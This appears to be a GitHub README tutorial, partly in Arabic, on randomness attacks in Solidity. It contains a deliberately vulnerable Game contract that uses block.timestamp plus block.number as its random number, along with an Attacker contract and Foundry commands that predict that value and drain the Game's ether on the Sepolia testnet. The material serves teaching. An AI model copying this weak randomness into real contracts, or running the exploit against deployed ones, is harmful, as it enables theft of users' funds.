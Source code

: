 # Randomness-attack- 
## 1- What is Randomness?
run same code get diffirent result

## 2- what is Determinisitic System?
   * Same Input == Same Outbut
   * every node must agree on the same state
    
  ```solidity
 function test(uint256 a) public pure returns(uint256){
      return a*2;
   }          // same input same output
   
```
 ![Image](https://github.com/user-attachments/assets/266e1bd8-ba9d-4746-a793-4fb934ed254b)


## 3- why we need randomness in web3
   * Games NFT (Non Fungible Tokens  ) [ERC721](https://docs.openzeppelin.com/contracts/3.x/erc721)  Choose Winner
   * 🏛️ DAO = Decentralized Autonomous Organization choose Member to Voting
   * AirDrops
   * Validatores , committes , nodes  proof of stake (ethereum2, polkadot ,Algorand)
   * Defi Decentralized Finance
     
# Example 01
Smart contract Game to guess number and win the game

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Game {
    constructor() payable{

    }

    function play(uint256 guess) external{
        uint256 randomNumber = block.timestamp + block.number; 

        if(randomNumber == guess){
           payable(msg.sender). transfer(address(this).balance);        
        }
    }

}
```
Command to compile
```
forge compile
```
Command to deploy on sepolia
```
 forge create <contract path> --rpc-url <sepolia rpc>  --private-key <your private key> --value <charge contract with ethereum> --broadcast
```
# 🔌 Who Provides RPC Endpoints?

There are several popular providers that offer reliable RPC endpoints for interacting with blockchain networks:

- [Infura](https://infura.io)
- [Alchemy](https://www.alchemy.com)
- [Ankr](https://www.ankr.com)
- [QuickNode](https://www.quicknode.com)

Alternatively, you can run your own Ethereum node (e.g., using Geth or Nethermind) and host your own RPC endpoint for full control and privacy.


Command to check Balance
```
cast balance 0xYourContractAddress --rpc-url <your rpc>
```
convert from wei to ether

```
cast from-wei 1000000000000000000

```

# Scritp to deploy Game Contract 
```solidity
//SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "src/Game.sol";

contract DeployGame is Script {
    function run() external{

        vm.startBroadcast() ;

       Game game = new Game{value: 0.01 ether}();
 


        vm.stopBroadcast ();

    }
}
```
> ❗ **تنبيه مهم (في حالتك):**  
> طالما عقد `Game` عنده constructor عليه `payable`، يعني محتاج تديله فلوس وقت النشر، يبقى لازم تكتب السطر كده:
>
> ```solidity
> Game game = new Game{value: 0.01 ether}();
> ```
>
> عشان تبعتله `0.01 ETH` وقت النشر.

> 💡 **ملاحظة إضافية:**  
> لو انت بتدفع `value` وقت النشر (عشان العقد بياخد فلوس في الـ `constructor`)، لازم تكتبها جوه `new Game{value: ...}` جوه السكريبت:
>
> ```solidity
> Game game = new Game{value: 0.01 ether}();
> ```
>
> مش هينفع تعتمد بس على `--value` من CLI، لازم الاتنين مع بعض.
ركز إن --broadcast لازم يكون قبل --value.




## Smart contract to attack the Game

```solidity

//SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface IGame{
        function play(uint256 guess) external;
    }

contract Attacker{
    IGame public game;  //store Games Address

    constructor(address GameContract) payable{
        game = IGame(GameContract);

    }

    function attack() external payable{
        uint predictNumber = block.timestamp + block.number;
        game.play(predictNumber);
    }
    receive() external payable {}

}
```
Command to compile
```
forge compile <contract path>
```
Command to deploy on sepolia
```
 forge create <contract path> --rpc-url <sepolia rpc>  --private-key <your private key>  --broadcast
```
Command to call function play

```
 cast send <contract address>  --rpc-url <your rpc> --private-key <your private key >   '<function name>'
```

Command to check Balance
```
cast balance 0xYourContractAddress --rpc-url <your rpc>
```



   

